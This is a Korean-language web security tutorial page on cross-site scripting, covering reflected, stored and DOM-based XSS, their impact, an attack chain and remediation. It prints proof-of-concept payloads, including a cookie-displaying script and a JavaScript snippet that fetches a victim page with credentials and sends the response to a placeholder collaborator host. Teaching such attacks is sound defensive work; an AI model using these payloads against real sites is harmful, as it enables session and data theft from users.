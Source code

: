 ```yaml
---
title: XSS (Cross-Site Scripting)
layout: default
parent: Web Hacking
nav_order: 2.3
description: "Web hacking"
---
```


# Cross Site Scripting (XSS)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}


XSS는 웹사이트에 악성 스크립트 `<script>` 태그나 HTML의 `on` 태그 속성을 이용해서 클라이언트 측 브라우저에서 실행되도록 하는 공격입니다.

XSS의 공격은 크게 3가지 유형으로 나뉩니다.

## Reflected XSS (반사형) 
- 악성스크립트가 포함된 URL을 Victim에게 보내는 형식으로 이루어집니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>?url=<script>alert("XSS")</script> 
>```

- Victim이 해당 URL을 클릭하면, 서버에서 해당 악성 스크립트를 Victim의 브라우저로 **"반사 (Reflect)"** 해서 보냅니다.
- 브라우저는 해당 스크립트를 신뢰하는 웹사이트에서 온것으로 간주하고 실행합니다.

## Stored XSS (저장형)
- 악성 스크립트를 게시판, 댓글, 포럼 등 웹 서버의 데이터베이스에 저장하는것을 의미합니다.
- 다른 사용자가 해당 페이지에 접속하면, 서버에 저장된 스크립트가 해당 사용자 브라우저에서 실행이 됩니다.
- Reflected XSS와 다르게 특정 URL을 클릭할 필요 없이 불특정 다수에게 피해를 줄 수 있습니다.

## DOM-based XSS
- 서버를 거치지 않고 사용자 브라우저의 Document Object Model (DOM) 환경에서 공격이 이루어 집니다.
- 주로 자바스크립트를 이용해 HTML 페이지를 조작하는 방식으로 작동합니다

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>/#javascript:alert("XSS") 
>```

- URL의 매개변수 값 등을 조작해 스크립트를 실행시킵니다.

{: .warning }
> 많은분들이 "Reflected XSS" 와 혼동을 하시는 분들이 많습니다. 두 종류의 차이점은 악성 스크립트가 주입되는 시점에서 찾을수 있습니다.
> 1. DOM-based XSS 공격은 네트워크에서 서버에게 별도 요청없이 URL 주소 해시에 심은 악성 스크립트가 실행이 됩니다.
> 2. Reflected XSS 공격은 악성 스크립트가 일단 서버에 전달이 되어야합니다. 

## XSS Impact 
- 사용자 권한을 탈취할 수 있습니다. (Impersonate User).
- 사용자 데이터를 읽거나 쓸수 있습니다. (Read and Write data that user is accessible).
- 사용자의 로그인 계정을 탈취할 수 있습니다. (Capture Login creds).
- 악성코드 삽입 (Inject Trojan).
- 웹사이트 UI변경 (Virtual Defacement).

## XSS Attack Chain
- Steal Cookie (쿠키를 탈취할 수 있습니다)

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 팝업창에 띄우기
> ``` 
> https://<website>?url=<script>alert(document.cookie)</script> 
>```

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 Burp Collaborator (Attacker 서버로 보낼때)
> ``` 
> https://<website>?url=[The script under] 
>```
> [The script under]:
>```js
> <script>
>   var xhr = new XMLHttpRequest();
>   var url = 'VICTIM URL'
>   xhr.onreadystatechange = function() {
>       if (xhr.readyState == XMLHttpRequest.DONE) {
>           fetch('https://BURPCOLLABORATOR/' + xhr.responseText)
>       }
>   }
>   xhr.open('GET', url, true);
>   xhr.withCredentials = true;
>   xhr.send(null);
> </script>
>```

- Capture Password (로그인 크레덴셜 탈취)
- Bypass CSRFToken (CSRF 토큰을 우회할 수 있습니다)

## Remediation

- **입력값 검증**: 사용자로부터 입력받는 모든 데이터에 대해 `< > " ' & javascript on` 같은 특수문자나 스크립트를 필터링 또는 이스케이핑 처리를 해야 됩니다. Whitelist 방식을 쓰는것이 가장 바람직 합니다.
- **출력 인코딩**: 서버에서 브라우저로 데이터를 보낼 때, 스크립트가 실행되지 않도록 HTML Entity로 변환해야 합니다.
- **보안 헤더 설정 (CSP)**: Content-Security-Policy (CSP) 같은 보안 정책을 사용해 어떤 스크립트를 실행할지 미리 정의합니다.